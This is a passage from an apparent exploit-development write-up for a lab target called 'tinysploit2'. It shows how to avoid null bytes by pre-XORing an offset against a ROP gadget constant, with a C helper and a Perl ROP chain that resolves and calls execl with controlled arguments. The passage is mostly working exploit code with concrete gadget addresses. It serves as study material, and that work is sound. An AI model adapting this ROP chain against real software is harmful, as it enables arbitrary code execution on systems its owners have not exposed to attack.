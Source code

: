Another complication: the offset, which we write into eax, contains null bytes: `0x0003ff30`
I fixed this by just searching for some "xor eax, ???????", and xor it in advance in C:

I used this gadget:
```
0x0811ef88: xor eax, 0x2f131326; ret;
```

Lets prepare it:
```
user@tinysploit2:~$ cat xor.c
#include <stdio.h>

void main(void) {
	unsigned int a = 0x3ff30; // my offset
	a = a ^ 0x2f131326; // xor nr found in gadget
	printf("0x%x\n", a);
}
user@tinysploit2:~$ gcc xor.c && ./a.out
0x2f10ec16
```

So we have to load 0x2f10ec16 into eax, xor it with the gadget, and the
result is the offset we need.


In the exploit, it looks like this:
```
	# get addr of execl from PLT
	# we use this add gadget (which we need to work around):
	# 0x081187df: add eax, dword ptr [ebx + 0x5e5b5cc4]; pop edi; pop ebp; ret;

	## get offset into eax
	# offset to eax. The offset is not the original 0x3ff30,
  # but xor'ed with 0x2f131326, therefore 0x2f10ec16
	$ropchain .= pack("V", $pop_eax);    # 0x08060f10: pop eax; pop ebx; pop ebp; ret;
	$ropchain .= pack("V", 0x2f10ec16);  # EAX
	$ropchain .= pack("V", 0x44444444);  # fake EBX
	$ropchain .= pack("V", 0x44444444);  # fake EBP

	# fix eax by xoring it:
	$ropchain .= pack("V", 0x0811ef88);  # 0x0811ef88: xor eax, 0x2f131326; ret;

	## get addr of malloc into ebx
	# addr of malloc into ebx. Adjust for offset contained in add gadget.
	$ropchain .= pack("V", $pop_ebx);    # 0x0813c85c: pop ebx; ret;
	$ropchain .= pack("V", $malloc_addr-0x5e5b5cc4);

	# add eax with [ebx], write result into eax
	# 0x081187df: add eax, dword ptr [ebx + 0x5e5b5cc4]; pop edi; pop ebp; ret;
  # note: we dereference ebx. Therefore its like: eax = eax + *ebx
  #       the dereference will access the address of system, from plt
	$ropchain .= pack("V", 0x081187df);  # add
	$ropchain .= pack("V", 0x44444444);  # fake edi
	$ropchain .= pack("V", 0x44444444);  # fake ebp

	# jmp to addr in eax
	# 0x080577cf: call eax; pop eax; pop ebx; leave; ret;
	# the commands after call (pop eax etc.) will never be executed,
	# as we execl()
	$ropchain .= pack("V", 0x080577cf);  # call eax

	# args for execl
	$ropchain .= pack("V", $exec_path_addr);   # path
	$ropchain .= pack("V", $exec_arg1_addr);   # arg1
	$ropchain .= pack("V", $exec_arg2_addr);   # arg2
	$ropchain .= pack("V", $exec_arg3_addr);   # arg3
```